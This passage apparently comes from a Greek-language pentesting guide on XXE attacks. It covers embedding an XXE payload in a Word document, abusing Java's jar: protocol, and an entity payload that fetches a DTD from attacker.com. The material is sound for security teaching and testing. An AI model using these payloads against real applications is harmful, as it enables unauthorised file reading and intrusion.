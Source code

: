 Για να ελεγχθεί αυτή η ευπάθεια, είναι απαραίτητο να δημιουργηθεί ένα **αρχείο Microsoft Office που περιέχει ένα φορτίο XXE**. Ο πρώτος βήμα είναι να δημιουργηθεί ένας κενός κατάλογος στον οποίο το έγγραφο μπορεί να αποσυμπιεστεί.

Αφού το έγγραφο έχει αποσυμπιεστεί, το αρχείο XML που βρίσκεται στη διαδρομή `./unzipped/word/document.xml` πρέπει να ανοιχτεί και να επεξεργαστεί σε έναν προτιμώμενο επεξεργαστή κειμένου (όπως το vim). Το XML πρέπει να τροποποιηθεί ώστε να περιλαμβάνει το επιθυμητό φορτίο XXE, συχνά ξεκινώντας με ένα αίτημα HTTP.

Οι τροποποιημένες γραμμές XML πρέπει να εισαχθούν μεταξύ των δύο ριζικών αντικειμένων XML. Είναι σημαντικό να αντικατασταθεί ο URL με έναν παρακολουθήσιμο URL για τα αιτήματα.

Τέλος, το αρχείο μπορεί να συμπιεστεί για να δημιουργηθεί το κακόβουλο αρχείο poc.docx. Από τον προηγουμένως δημιουργημένο κατάλογο "unzipped", πρέπει να εκτελεστεί η παρακάτω εντολή:

Τώρα, το δημιουργημένο αρχείο μπορεί να ανέβει στην πιθανώς ευπάθη εφαρμογή ιστού, και μπορεί να ελπίζει κανείς για την εμφάνιση ενός αιτήματος στα αρχεία καταγραφής του Burp Collaborator.


### Πρωτόκολλο Jar

Το πρωτόκολλο **jar** είναι προσβάσιμο αποκλειστικά μέσα σε **εφαρμογές Java**. Σχεδιάστηκε για να επιτρέπει την πρόσβαση σε αρχεία εντός ενός αρχείου **PKZIP** (π.χ. `.zip`, `.jar`, κλπ.), εξυπηρετώντας τόσο τοπικά όσο και απομακρυσμένα αρχεία.
```
jar:file:///var/myarchive.zip!/file.txt
jar:https://download.host.com/myarchive.zip!/file.txt
```
{% hint style="danger" %}
Για να μπορέσετε να έχετε πρόσβαση σε αρχεία μέσα σε αρχεία PKZIP είναι **πολύ χρήσιμο για κατάχρηση του XXE μέσω αρχείων συστήματος DTD**. Ελέγξτε [αυτήν την ενότητα για να μάθετε πώς να καταχραστείτε αρχεία συστήματος DTD](xxe-xee-xml-external-entity.md#error-based-system-dtd).
{% endhint %}

Η διαδικασία για να έχετε πρόσβαση σε ένα αρχείο μέσα σε ένα αρχείο PKZIP μέσω του πρωτοκόλλου jar περιλαμβάνει αρκετά βήματα:

1. Ένα αίτημα HTTP γίνεται για να κατεβάσει το αρχείο zip από μια συγκεκριμένη τοποθεσία, όπως `https://download.website.com/archive.zip`.
2. Η απόκριση HTTP που περιέχει το αρχείο αποθηκεύεται προσωρινά στο σύστημα, συνήθως σε μια τοποθεσία όπως `/tmp/...`.
3. Το αρχείο αποσυμπιέζεται για να έχετε πρόσβαση στο περιεχόμενό του.
4. Το συγκεκριμένο αρχείο μέσα στο αρχείο, `file.zip`, διαβάζεται.
5. Μετά τη λειτουργία, οποιαδήποτε προσωρινά αρχεία που δημιουργήθηκαν κατά τη διάρκεια αυτής της διαδικασίας διαγράφονται.

Μια ενδιαφέρουσα τεχνική για να διακόψετε αυτήν τη διαδικασία στο δεύτερο βήμα περιλαμβάνει τη διατήρηση της σύνδεσης του διακομιστή ανοιχτής για απεριόριστο χρονικό διάστημα κατά την παροχή του αρχείου αρχείου. Εργαλεία που είναι διαθέσιμα στο [αυτό το αποθετήριο](https://github.com/GoSecure/xxe-workshop/tree/master/24_write_xxe/solution) μπορούν να χρησιμοποιηθούν για αυτόν τον σκοπό, συμπεριλαμβανομένου ενός διακομιστή Python (`slow_http_server.py`) και ενός διακομιστή Java (`slowserver.jar`).
```xml
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "jar:http://attacker.com:8080/evil.zip!/evil.dtd">]>
<foo>&xxe;</foo>
```
{% hint style="danger" %}
Η εγγραφή αρχείων σε έναν προσωρινό κατάλογο μπορεί να βοηθήσει στην επιδείνωση μιας άλλης ευπάθειας που σχετίζεται με μια διαδρομή διάβασης (όπως η τοπική συμπερίληψη αρχείου, ενσωμάτωση προτύπου, XSLT RCE, αποσυνεργοποίηση κ.λπ.).
{% endhint %}
